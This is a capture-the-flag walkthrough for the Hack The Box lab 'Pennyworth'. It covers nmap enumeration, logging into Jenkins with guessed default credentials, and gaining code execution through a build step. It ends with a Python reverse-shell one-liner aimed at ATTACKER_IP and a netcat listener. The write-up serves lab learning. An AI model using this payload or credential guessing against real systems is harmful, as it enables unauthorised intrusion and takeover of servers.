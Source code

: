 ```yaml
---
title: "[Starting Point] Tier 1: Pennyworth"
tags:
  - Very Easy
  - Linux
  - Jenkins
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--| :-----------: |--|
|  Very Easy |  | 10.129.82.175 |  |

---

### [ What does the acronym CVE stand for? ]

Common Vulnerabilities and Exposures

---

### [ What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for? ]

Confidentiality, Integrity, Availability

---

### [ What is the version of the service running on port 8080? ]

Let's run an nmap scan on the target machine. We load in standard scripts (-sC) and enable version enumeration (-sV).

```
sudo nmap -sC -sV -vv -T4 10.129.82.175
```

![screenshot1](../assets/images/pennyworth/screenshot1.png)

From the results, we can see that only 1 port is open: **8080 (HTTP)**

The service version running is: **Jetty 9.4.39.v20210325**

---

### [ What version of Jenkins is running on the target? ]

Let's visit `http://10.129.82.175:8080`

![screenshot2](../assets/images/pennyworth/screenshot2.png)

We are brought to a Jenkins login page.

I tried common admin credentials, such as **admin:admin** and **root:root**. 

Eventually, I came across a set of creds that allowed me to log in:

> root : password

![screenshot3](../assets/images/pennyworth/screenshot3.png)

From the bottom of the page, we can see the Jenkins version: **2.289.1**

---

### [ What type of script is accepted as input on the Jenkins Script Console? ]

![screenshot4](../assets/images/pennyworth/screenshot4.png)

**Groovy** script is accepted as input.

---

### [ What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows? ]

cmd.exe

---

### [ What is a different command than "ip a" we could use to display our network interfaces' information on Linux? ]

`ifconfig`

---

### [ What switch should we use with netcat for it to use UDP transport mode? ]

`-u`

---

### [ What is the term used to describe making a target host initiate a connection back to the attacker host? ]

reverse shell

---

### [ Submit root flag ]

We can use Jenkin's Groovy Script Console to open a reverse shell back to us (the attacker).

First, we click on the '**Groovy Script**' project on the dashboard. This will bring us to the following page:

![screenshot5](../assets/images/pennyworth/screenshot5.png)

Next, we click on **Configure** on the left side-bar, which will bring us to the configuration page for the Groovy Script Console.

Scroll down to the **Build** section. Click on **Add build step** > **Execute shell**. Let's try to run a simple `id` command:

![screenshot6](../assets/images/pennyworth/screenshot6.png)

After saving, we will be brought back to the main page.

Click on **Build Now** on the left side-bar. After some time, a new entry should appear at the bottom left, under **Build History**:

![screenshot7](../assets/images/pennyworth/screenshot7.png)

*(There should only be 1 entry, I've already built multiple times)*

Click on the new entry, then click on **Console Output**:

![screenshot8](../assets/images/pennyworth/screenshot8.png)

Nice! The `id` command was successfully run and we have achieved remote code execution. We can now open a reverse shell back to our machine. 

*(I'll be using the Python payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md))*

Replace `id` in the build settings with:

```
export RHOST="ATTACKER_IP";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Next, set up a netcat listener running on your specified port:

```
nc -lvnp 4444
```

Finally, build the project.

![screenshot9](../assets/images/pennyworth/screenshot9.png)

The reverse shell is opened and we're in!

The **root flag** can be found in /root:

![screenshot10](../assets/images/pennyworth/screenshot10.png)
